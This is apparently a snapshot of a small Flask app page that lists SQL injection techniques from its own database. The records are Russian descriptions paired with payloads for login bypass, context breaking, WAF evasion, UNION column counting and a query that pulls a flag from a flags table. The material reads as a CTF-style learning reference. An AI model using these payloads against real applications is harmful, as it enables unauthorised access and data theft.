
The app's page /sql with its own data.
### tables this page shows
CREATE TABLE sql (id INTEGER PRIMARY KEY AUTOINCREMENT, description TEXT, payload TEXT);

### main.py (the view)
@app.route('/sql')
def show_sql_injections():
    rows = query_db('SELECT * FROM sql')
    return render_template('sql.html', sql_injections=rows)

### main.py (called while the page is built)
def query_db(query, args=(), one=False):
    con = sqlite3.connect(DATABASE)
    cur = con.cursor()
    cur.execute(query, args)
    rv = cur.fetchall()
    cur.close()
    con.close()
    return (rv[0] if rv else None) if one else rv

### templates/sql.html (shortened to what this page needs)
<!DOCTYPE html>
<html lang="en">
<head>
    <link type="text/css" rel="stylesheet" href="../static/style.css">
</head>
<body class="bg-sql">
    <h1>SQL Exploits</h1>
    <table>
        <tbody>
            {% for exploit in sql_injections %}
            <tr>
                <td>{{ exploit[1] }}</td>
                <td class="payload-data">{{ exploit[2] }}</td>
            </tr>
            {% endfor %}
        </tbody>
    </table>
</body>
</html>

### static/style.css (style rules this page uses)
:root { --back-color: black; --back-color-transparent: rgba(0, 0, 0, 0.5); --fore-color: rgb(195, 0, 255); --fore-color-1: rgb(255, 119, 244); --fore-color-2: rgb(202, 124, 255); --fore-color-3: rgb(92, 233, 255); --fore-color-4: rgb(255, 209, 92); --fore-color-5: rgb(246, 74, 138); --bloom-filter: drop-shadow(0 0 5px var(--fore-color)); }
body { background-image: url(./images/123.png); background-position: center; background-attachment: fixed; background-size: 200vh; color: var(--fore-color-2); font-family: 'PixelFont'; font-size: 16px; line-height: 1.5; padding: 4vw; margin: 0; filter: var(--bloom-filter); display: flex; flex-direction: column; align-items: center; justify-content: center; }
h1, h2 { text-align: center; overflow: hidden; color: var(--fore-color-3); }
table { width: 100%; border-collapse: collapse; background-color: rgba(255, 255, 255, 0); }
th, td { width: 100%; padding: 10px; border-bottom: 1px solid #ddd; }
td { border-bottom: none; color: var(--fore-color-3); display: flex; justify-content: space-between; background-color: var(--back-color-transparent); padding: 10px; border-radius: 5px; }
.payload-data { color: var(--fore-color-5); }
.bg-sql { background-image: url('./images/124 .png'); background-position: center; background-attachment: fixed; background-size: 200vh; color: var(--fore-color-2); font-family: 'PixelFont'; font-size: 16px; line-height: 1.5; padding: 4vw; margin: 0; filter: var(--bloom-filter); display: flex; flex-direction: column; align-items: center; justify-content: center; }

### records on screen
sql: description "Простым примером SQL-инъекции является случай, когда злоумышленник вводит следующие данные в форму входа в систему", payload "' OR '1'='1"
sql: description "Этот ввод приводит к тому, что SQL-запрос возвращает значение true, позволяя злоумышленнику обойти аутентификацию:", payload "SELECT * FROM users WHERE username = '' OR '1'='1' AND password = '';"
sql: description "При слепой SQL-инъекции на основе логических значений злоумышленники используют операторы true/false, чтобы узнать о структуре и содержимом базы данных. Наблюдая за тем, как приложение ведет себя в ответ на эти запросы, злоумышленник может постепенно выводить целевые данные.", payload "SELECT * FROM products WHERE id = [user_input];"
sql: description "Возможно, вы нашли сайт, который, по-видимому, уязвим для SQLi только потому, что сервер странно ведет себя с входными данными, связанными с SQLi. Следовательно, первое, что вам нужно сделать, - это как ввести данные в запрос, не нарушая его. Чтобы сделать это, вам сначала нужно найти, как выйти из текущего контекста.", payload "[Nothing] ' \" ` ') \") `) ')) \")) `))"
sql: description "Комментарии", payload "MySQL #comment -- comment [Note the space after the double dash] /*comment*/ /*! MYSQL Special SQL */ PostgreSQL --comment /*comment*/ MSQL --comment /*comment*/ Oracle --comment SQLite --comment /*comment*/ HQL HQL does not support comments"
sql: description "WAF", payload "/?id='+select+1&id=2,3+from+users+where+id=1-- - /?id=%0A' OR 1=1-- -"
sql: description "Определить колличество столбцов", payload "' UNION SELECT NULL-- ' UNION SELECT NULL-- - ' UNION SELECT NULL,NULL-- ' UNION SELECT NULL,NULL-- - ' UNION SELECT NULL,NULL,NULL-- ' UNION SELECT NULL,NULL,NULL-- - ' UNION SELECT 'a',NULL,NULL-- ' UNION SELECT 'a',NULL,NULL-- - ' UNION SELECT NULL,'a',NULL-- ' UNION SELECT NULL,'a',NULL-- - ' UNION SELECT NULL,NULL,'a'-- ' UNION SELECT NULL,NULL,'a'-- -"
sql: description "ОБЪЕДИНЕНИЕ ВСЕХ Мы можем объединить результат запроса в один столбец, используя синтаксис “ОБЪЕДИНИТЬ ВСЕ”.", payload "' UNION ALL SELECT \"' UNION SELECT flag,NULL,NULL from flags-- -\",NULL,NULL from users-- -"
